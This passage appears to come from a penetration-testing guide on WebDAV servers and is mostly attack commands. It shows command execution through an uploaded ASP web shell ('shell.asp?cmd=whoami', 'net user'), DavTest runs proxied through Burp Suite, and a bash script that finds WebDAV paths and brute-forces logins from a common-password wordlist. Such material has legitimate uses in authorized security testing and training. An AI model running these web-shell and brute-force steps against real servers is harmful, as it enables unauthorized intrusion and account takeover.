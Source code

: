 #### **Phase 4: Verification (Browser + Command Execution)**
```bash
# Access uploaded shell via browser
firefox http://target_ip/webdav/shell.asp?cmd=whoami

# Command execution testing
# URL: http://target/webdav/shell.asp?cmd=dir+C:\
# URL: http://target/webdav/shell.asp?cmd=net+user
```

### **🔧 Secondary Integration: DavTest + Burp Suite**
```bash
# Configure proxy settings for detailed HTTP analysis
export http_proxy=http://127.0.0.1:8080
davtest -auth creds -url http://target/webdav

# Benefits:
# - Detailed HTTP request/response analysis
# - Manual verification of upload mechanisms  
# - Advanced authentication testing
# - Custom payload modification
```

### **⚙️ Advanced Automation Workflow:**
```bash
#!/bin/bash
# webdav_assessment.sh - Comprehensive WebDAV testing script

TARGET=$1
WORDLIST="/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt"

echo "[+] Starting WebDAV assessment for $TARGET"

# Phase 1: Discovery
echo "[+] Testing common WebDAV paths..."
for path in "" "webdav" "dav" "_vti_bin"; do
    davtest -url http://$TARGET/$path 2>/dev/null | grep -q "SUCCEED" && echo "Found WebDAV at /$path"
done

# Phase 2: Authentication testing
echo "[+] Testing common credentials..."
while read creds; do
    davtest -auth $creds -url http://$TARGET/webdav 2>/dev/null | grep -q "SUCCEED" && echo "Valid credentials: $creds"
done < $WORDLIST

echo "[+] WebDAV assessment complete"
```

---
